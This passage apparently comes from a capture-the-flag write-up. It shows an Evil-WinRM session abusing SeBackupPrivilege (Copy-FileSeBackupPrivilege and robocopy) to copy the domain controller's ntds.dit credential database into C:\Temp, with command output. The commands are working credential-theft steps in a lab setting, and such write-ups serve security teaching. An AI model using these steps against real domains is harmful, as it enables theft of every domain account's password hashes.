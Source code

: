 ```bash
------------------------------------------------------------------------------

	                   1	E:\Windows\ntds\
	    New File  		  16.0 m	ntds.dit
  0.0%
  0.3%
  0.7%
  1.1%
  1.5%
  1.9%
  2.3%
  2.7%
  3.1%
  3.5%
[...snip...]
98.8%
 99.2%
 99.6%
100%
100%

------------------------------------------------------------------------------

               Total    Copied   Skipped  Mismatch    FAILED    Extras
    Dirs :         1         0         1         0         0         0
   Files :         1         1         0         0         0         0
   Bytes :   16.00 m   16.00 m         0         0         0         0
   Times :   0:00:00   0:00:00                       0:00:00   0:00:00


   Speed :           56,488,942 Bytes/sec.
   Speed :            3,232.323 MegaBytes/min.
   Ended : Wednesday, October 9, 2024 10:47:21 AM
```

Lets again try it with the `Copy-FileSeBackupPrivilege` method that I imported earlier through <span style="color:#fd77f8">SeBackupPrivilegeCmdLets.dll</span>, <span style="color:#fd77f8">SeBackupPrivilegeUtils.dll</span> dlls.

```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Videos> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Videos> ls C:\Temp


    Directory: C:\Temp


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/10/2024   5:25 AM       16777216 ntds.dit

```

